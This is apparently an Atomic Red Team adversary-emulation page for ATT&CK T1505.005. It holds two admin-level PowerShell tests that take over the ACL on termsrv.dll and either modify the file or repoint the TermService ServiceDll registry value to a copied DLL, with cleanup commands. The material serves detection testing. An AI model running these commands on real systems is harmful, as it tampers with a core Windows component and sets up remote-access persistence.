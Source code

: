 ```yaml
---
tags: [T1505_005, atomic_test]
filename: "[[T1505.005|T1505.005 - Server Software Component: Terminal Services DLL]]"
---
```


# T1505.005 - Server Software Component: Terminal Services DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/005)
<blockquote>Adversaries may abuse components of Terminal Services to enable persistent access to systems. Microsoft Terminal Services, renamed to Remote Desktop Services in some Windows Server OSs as of 2022, enable remote terminal connections to hosts. Terminal Services allows servers to transmit a full, interactive, graphical user interface to clients via RDP.(Citation: Microsoft Remote Desktop Services)

[Windows Service](https://attack.mitre.org/techniques/T1543/003)s that are run as a "generic" process (ex: <code>svchost.exe</code>) load the service's DLL file, the location of which is stored in a Registry entry named <code>ServiceDll</code>.(Citation: Microsoft System Services Fundamentals) The <code>termsrv.dll</code> file, typically stored in `%SystemRoot%\System32\`, is the default <code>ServiceDll</code> value for Terminal Services in `HKLM\System\CurrentControlSet\services\TermService\Parameters\`.

Adversaries may modify and/or replace the Terminal Services DLL to enable persistent access to victimized hosts.(Citation: James TermServ DLL) Modifications to this DLL could be done to execute arbitrary payloads (while also potentially preserving normal <code>termsrv.dll</code> functionality) as well as to simply enable abusable features of Terminal Services. For example, an adversary may enable features such as concurrent [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) sessions by either patching the <code>termsrv.dll</code> file or modifying the <code>ServiceDll</code> value to point to a DLL that provides increased RDP functionality.(Citation: Windows OS Hub RDP)(Citation: RDPWrap Github) On a non-server Windows OS this increased functionality may also enable an adversary to avoid Terminal Services prompts that warn/log out users of a system when a new RDP session is created.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Simulate Patching termsrv.dll](#atomic-test-1---simulate-patching-termsrvdll)

- [Atomic Test #2 - Modify Terminal Services DLL Path](#atomic-test-2---modify-terminal-services-dll-path)


<br/>

## Atomic Test #1 - Simulate Patching termsrv.dll
Simulates patching of termsrv.dll by making a benign change to the file and replacing it with the original afterwards.
Before we can make the modifications we need to take ownership of the file and grant ourselves the necessary permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b2eadeb-4a64-4449-9d43-3d999f4a317b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path "C:\Windows\System32\termsrv.dll" -Destination "C:\Windows\System32\termsrv_backup.dll" -ErrorAction Ignore
Add-Content -Path "C:\Windows\System32\termsrv.dll" -Value "`n" -NoNewline -ErrorAction Ignore
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Modify Terminal Services DLL Path
This atomic test simulates the modification of the ServiceDll value in HKLM\System\CurrentControlSet\services\TermService\Parameters. This technique may be leveraged by adversaries to establish persistence by loading a patched version of the DLL containing malicious code.

**Supported Platforms:** Windows


**auto_generated_guid:** 18136e38-0530-49b2-b309-eed173787471






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path $termsrvDll -Destination "$HOME\AtomicTest.dll"

$newServiceDll = "$HOME\AtomicTest.dll"

$registryPath = "HKLM:\System\CurrentControlSet\services\TermService\Parameters"

# Check if the registry key exists
if (Test-Path -Path $registryPath) {
    # Modify the ServiceDll value in the registry
    Set-ItemProperty -Path $registryPath -Name "ServiceDll" -Value $newServiceDll
    Write-Host "ServiceDll value in the registry has been updated to: $newServiceDll"
} else {
    Write-Host "Registry key not found. Make sure the 'TermService\Parameters' key exists."
}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\services\TermService\Parameters" -Name "ServiceDll" -Value "C:\Windows\System32\termsrv.dll"
```





<br/>
